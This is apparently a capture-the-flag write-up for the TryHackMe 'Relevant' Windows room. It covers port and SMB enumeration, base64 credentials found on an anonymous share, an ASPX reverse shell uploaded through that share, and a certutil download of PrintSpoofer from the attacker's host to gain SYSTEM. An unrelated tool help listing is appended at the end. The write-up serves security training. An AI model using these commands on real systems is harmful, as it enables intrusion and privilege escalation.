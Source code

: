 # Relevant (THM)

- https://tryhackme.com/room/relevant
- March 15, 2023
- medium

---

## Enumeration

### Nmap

```
PORT     STATE SERVICE            REASON  VERSION
80/tcp   open  http               syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
135/tcp  open  msrpc              syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds       syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ssl/ms-wbt-server? syn-ack
```
- it is a window machine
- OS detection
```sh
sudo nmap -O $IP -oN nmap_os.log -vv
```

```
Aggressive OS guesses: 
    Microsoft Windows Server 2016 (91%), 
    Microsoft Windows Server 2012 (85%), 
    Microsoft Windows Server 2012 or Windows Server 2012 R2 (85%), 
    Microsoft Windows Server 2012 R2 (85%), 
    Microsoft Windows Server 2008 R2 (85%), 
    Microsoft Windows 10 1607 (85%)
```

- with rustscan to all port found extra 3 ports: 49663,49667,49669
- port 49663 is another http server

```
PORT      STATE SERVICE REASON  VERSION
49663/tcp open  http    syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc   syn-ack Microsoft Windows RPC
49669/tcp open  msrpc   syn-ack Microsoft Windows RPC
```


### SMB

- authentication error for smbmap
- with smbclient

```
$ smbclient -L $IP
Password for [WORKGROUP\hope]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
```

- found `nt4wrksv` share can enter with anonymous user 

```sh
$ smbclient \\\\10.10.184.217\\nt4wrksv
```

- found `password.txt` file and get to local machine

```
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
![](screenshots/2023-03-15-17-50-18.png)

- enter smb with that credentials (`--user`, `--password`) -> can't access
- enter rdp -> fail


### HTTP

- home page

![](screenshots/2023-03-15-17-41-12.png)

- directory brute forcing with ffuf -> nothing found
- try the directories and filenames with the name of the shares from ftp or smb
- not found

### HTTP:49663

- same page with above
- directory brute forcing with ffuf 
- nothing special found
- try with smb share name

![](screenshots/2023-03-15-18-05-24.png)

- smb share folder is connected with this service
- try to put reverse shell for aspx 

![](screenshots/2023-03-15-18-12-23.png)

- can write shell.aspx file in smb share folder which is connected with http service
- I use aspx reverse shell file from here - https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx
- change host and port

## User Access

- listen with nc and get request to shell file and get `iis apppool\defaultapppool` user access

![](screenshots/2023-03-15-18-14-00.png)

- find the nt4wrksv folder inside the system and it is here `c:\inetpub\wwwroot\nt4wrksv>`

- `Systeminfo`

```
Host Name:                 RELEVANT
OS Name:                   Microsoft Windows Server 2016 Standard Evaluation
OS Version:                10.0.14393 N/A Build 14393
```

- privs

```sh
c:\windows\system32\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

## Root Access

- to get system access, I used this printspoofer.exe file
- https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe
- download to local machine and transfer to exploit machine via python server

- local machine

```sh
~/ctf_challenges/TryHackMe/relevant on  main! ⌚ 15:20:29
$ python -m http.server 8888
```

- remote machine

```
c:\Users\Public\Downloads>certutil -urlcache -f http://10.11.8.57:8888/PrintSpoofer.exe ps.exe
c:\Users\Public\Downloads>.\ps.exe -i -c cmd
.\ps.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

- flag files are in `C:\Users\Administrator\Desktop\root.txt` and `C:\Users\Bob\Desktop\user.txt`


        domain               Enumerate domain information
        systeminfo           Search system information
        userinfo             Search user information
        processinfo          Search processes information
        servicesinfo         Search services information
        applicationsinfo     Search installed applications information
        networkinfo          Search network information
        windowscreds         Search windows credentials
        browserinfo          Search browser information
        filesinfo            Search generic files that can contains credentials
        fileanalysis         Search specific files that can contains credentials and for regexes inside files
        eventsinfo           Display interesting events information
